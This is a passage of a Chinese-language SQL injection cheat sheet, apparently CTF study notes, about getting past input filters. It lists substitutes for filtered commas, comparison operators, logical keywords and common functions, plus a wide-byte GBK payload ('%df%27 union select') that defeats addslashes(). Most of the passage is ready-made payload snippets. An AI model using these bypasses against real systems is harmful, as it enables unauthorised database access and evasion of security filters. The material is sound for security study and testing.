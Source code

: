 `select 1,2`

`select * from (select 1)a join (select 2)b`

1. `like/rlike`

`select ascii(mid(user(),1,1))=80`

`select user() like 'r%'`

1. `offset`

`select * from news limit 0,1`

`select * from news limit 1 offset 0`

### 比较符号 `(<=>)` 被过滤

1. `=` 用 `like, rlike, regexp` 代替

`select * from users where name like 'Liki4'`

`select * from users where name rlike 'Liki4'`

`select * from users where name regexp 'Liki4'`

1. `<>` 用 `greatest()、least()`

`select * from users where id=1 and ascii(substr(database(),0,1))>64`

`select * from users where id=1 and greatest(ascii(substr(database(),0,1)),64)=64`

1. `between`

`select * from users where id between 1 and 1;`

### `or and xor not` 被过滤

1. `and = &&`
2. `or = ||`
3. `xor = |`
4. `not = !`

### 常用函数被过滤

1. `hex()、bin() = ascii()`
2. `sleep() = benchmark()`
3. `concat_ws() = group_concat()`
4. `mid()、substr() = substring()`
5. `@@user = user()`
6. `@@datadir = datadir()`

### 宽字节注入

在 GB2312、GBK、GB18030、BIG5、Shift_JIS 等编码下来吃掉 ASCII 字符的方法，可以用来绕过 `addslashes()`
`id=0%df%27%20union%20select%201,2,database();`

![](https://cdn.xyxsw.site/boxcnaRtyUGC0sX3btnFIgpDCob.png)

